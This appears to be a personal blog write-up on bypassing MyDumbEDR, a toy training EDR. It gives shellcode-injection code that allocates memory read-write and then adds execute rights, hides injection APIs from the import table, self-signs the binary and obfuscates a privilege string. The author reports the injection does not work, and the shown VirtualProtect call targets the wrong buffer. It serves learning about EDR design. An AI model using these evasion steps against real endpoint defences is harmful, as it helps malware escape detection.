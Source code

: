 ```yaml
---
layout: post
title: Bypass MyDumbEDR
subtitle: There's lots to learn!
tags: [CyberSec]
comments: true
---
```



I attempted to find a straightforward way to bypass this EDR, avoiding more complex techniques such as Syshwipers3 or DLL unhooking. In this exploration, I focused on simplicity to navigate through the challenges posed by the Endpoint Detection and Response (EDR) system. Indeed, my primary goal was to gain a comprehensive understanding of the EDR, exploring its functionality and potential for creating one.

## What about The Remote Injector Agent ?

This EDR rely primarily on *inline API hooking*.

So, when we are trying to execute any functions using high level WinAPI, functions from *ntdll.dll* are indirectly triggered. The EDR applies hooks over "some of them" to detect for malicious calls.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131221528.png)
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131221550.png)

The first hook we will try to bypass is the hook on  `ntAllocateVirtualMemory`, as you can see, the EDR will check if the program want to allocate in Read-Write-Execute (RWX).
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131155650.png)

So to bypass this we just need to allocate the memory in *Read-Write* then when it's done we can change the protection to add the *Execute* and that's it. 

```c++
PVOID remoteBuffer = VirtualAllocEx_f(processHandle, NULL, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

WriteProcessMemory_f(processHandle, remoteBuffer, shellcode, shellcode_len, NULL);

rv = VirtualProtect_f(shellcode, shellcode_len, PAGE_EXECUTE_READWRITE, &oldprotect);
```

## What about the Static Analyzer Agent ?

The static analyser will check for three things:

- [x] If the binary is signed
- [x] If the *OpenProcess*, *VirtualAllocEx*, *WriteProcessMemory* and *CreateRemoteThread* functions are listed in the **IAT** `(Import Address Table)`
- [x] If the string SeDebugPrivilege is present in the binary


#### 0x1 - Code signing

First of all, we are going to sign our binary. We need to know that the EDR will only check if the binary is signed or not, so we just need to sign our binary and it's will be fine.
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131230908.png)

So, we are going to generate a self-signed certificate :
```
makecert -r -pe -n "CN=MyRootCA,O=TechSolutions,L=SanFrancisco,S=California,C=US" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv CA.pvk CA.cer
```

```
# 1.3.6.1.5.5.7.3.3 = Code Signing
# 1.3.6.1.4.1.311.10.3.24 = Protected process verification
# 1.3.6.1.4.1.311.10.3.6 = Windows System component verification


makecert -pe -n "CN=MyRootCA,O=TechSolutions,L=SanFrancisco,S=California,C=US" -a sha256 -cy end -sky signature -eku 1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.24,1.3.6.1.4.1.311.10.3.6 -ic CA.cer -iv CA.pvk -sv SPC.pvk SPC.cer
```

We import the CA certificate :
```md
certutil -user -addstore Root CA.cer
```

Then we are going to convert our certificate in the pfx format :
```md
pvk2pfx -pvk SPC.pvk -spc SPC.cer -pfx SPC.pfx
```

And finally, we are going to sign our binary :
```md
signtool sign /v /fd SHA256 /f SPC.pfx ShellcodeInject.exe
```

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131231309-1.png)

#### 0x2 - Hiding from the Import Address Table (IAT)

The IAT is a lookup table used when the application is calling functions in a different module. When the file is executed, the Windows Loader will fill in the IAT with the appropriate function addresses.

So, to see which functions are in the IAT, we can use the `dumpbin.exe`

```md
dumpbin /imports C:\Windows\system32\notepad.exe
```

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131163110.png)


So to hide our functions in our binary we are going to obfuscate them.

```c++
typedef BOOL(WINAPI* pVirtualProtect)(
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flNewProtect,
    PDWORD lpflOldProtect
);

typedef HANDLE(WINAPI* pCreateRemoteThread)(
    HANDLE                 hProcess,
    LPSECURITY_ATTRIBUTES  lpThreadAttributes,
    SIZE_T                 dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID                 lpParameter,
    DWORD                  dwCreationFlags,
    LPDWORD                lpThreadId
);

typedef LPVOID(WINAPI* pVirtualAllocEx)(
    HANDLE hProcess,
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flAllocationType,
    DWORD  flProtect
);

typedef NTSTATUS(WINAPI* pNtOpenProcess)(
    PHANDLE            ProcessHandle,
    ACCESS_MASK        DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PCLIENT_ID         ClientId
    );

typedef BOOL(WINAPI* pWriteProcessMemory)(
    HANDLE  hProcess,
    LPVOID  lpBaseAddress,
    LPCVOID lpBuffer,
    SIZE_T  nSize,
    SIZE_T* lpNumberOfBytesWritten
);
```

```cpp
pVirtualAllocEx VirtualAllocEx_f = reinterpret_cast<pVirtualAllocEx>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx"));

pCreateRemoteThread CreateRemoteThread_f = reinterpret_cast<pCreateRemoteThread>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "CreateRemoteThread"));

pWriteProcessMemory WriteProcessMemory_f = reinterpret_cast<pWriteProcessMemory>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "WriteProcessMemory"));

pNtOpenProcess NtOpenProcess_f = reinterpret_cast<pNtOpenProcess>(
	GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenProcess"));

pVirtualProtect VirtualProtect_f = reinterpret_cast<pVirtualProtect>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualProtect"));
```


#### 0x3 - Token privileges ?

To open a handle to another process and obtain full access rights, we **must** enable the `SeDebugPrivilege` privilege.

if we request `PROCESS_ALL_ACCESS` when calling `OpenProcess`, the operation may require `SeDebugPrivilege`...

*Wait wait wait ...*

Before checking what exaclty the function do, I was thinking that the EDR will check if the binary has the `SeDebugPrivilege` enabled 😅. So, this function is a simple form of pattern matching and does not directly check if the binary itself has the `SeDebugPrivilege` enabled during runtime. The function is more about inspecting the static content of a binary file for a specific string, but it doesn't verify whether the binary, when executed, will have `SeDebugPrivilege` enabled.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131172033.png)

So we just need to obfuscate strings with *SeDebugPrivilege* and that's it.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131231827.png)


Upon attempting to execute the *ShellCode.exe* it seems that the Calculator application is not launching as expected. Feel free to contact me with any questions or comments. See you soon!

## Source 

* (Cocomelonc, 2024), https://cocomelonc.github.io/tutorial/2021/12/13/malware-injection-12.html
* (Medium, 2024), https://medium.com/@singhr780/how-to-do-code-signing-using-self-signed-certificate-c51fe6884532
* (Sektor7), Red Team Operator: Malware Development Essentials Course 